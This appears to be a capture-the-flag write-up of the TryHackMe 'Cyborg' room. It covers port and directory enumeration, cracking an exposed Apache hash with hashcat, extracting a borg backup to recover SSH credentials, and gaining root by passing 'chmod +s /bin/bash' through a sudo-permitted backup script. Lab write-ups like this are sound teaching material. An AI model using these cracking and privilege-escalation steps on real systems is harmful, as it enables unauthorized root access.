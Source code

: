 # Cyborg (THM)

- https://tryhackme.com/room/cyborgt8
- March 4, 2023
- easy

---

## Enumeration

### Nmap

1. 22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))

### http

- directory brute forcing with ffuf

```
admin [Status: 301, Size: 314, Words: 20, Lines: 10]
etc   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

#### Admin

- Download archive.tar from http://$IP/admin/archive.tar

- http://$IP/admin/admin.html

```
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
```

- unzip the tar file and in README file, it is said borgbackup.
- in borgbackup documentation, find the extract command
- https://borgbackup.readthedocs.io/en/stable/usage/extract.html

```sh
borg extract /path/to/repo::my-files
```

#### etc

- found two files

  - passwd, squid.conf

- crack apr (Apache) with hashcat and found password

```sh
$ hashcat -m 1600 music_hashes /usr/share/wordlists/rockyou.txt
# $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
```

- it may be password for borg archive

```sh
$ borg extract archive/home/field/dev/final_archive::music_archive
# enter above password
```

- it will extract `home` folder
- /home/Documents/note.txt

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

## Get User Access

- enter ssh with above credentials

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh


alex@ubuntu:~$ ls -lah /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1.1K Dec 30  2020 /etc/mp3backups/backup.sh

alex@ubuntu:~$ cat /etc/mp3backups/backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

input="/etc/mp3backups/backed_up_files.txt"
while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done
backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```

- run the pspy64 and found that backup.sh file is running once per minute
- above script,

```sh
while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done
...
cmd=$($command)
echo $cmd
```

## Get Root Access

- if backup.sh is run with -c flag, it will execute by root

```sh
alex@ubuntu:/tmp$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
alex@ubuntu:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
alex@ubuntu:/tmp$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# cat /home/alex/user.txt
bash-4.3# cat /root/root.txt
```

---
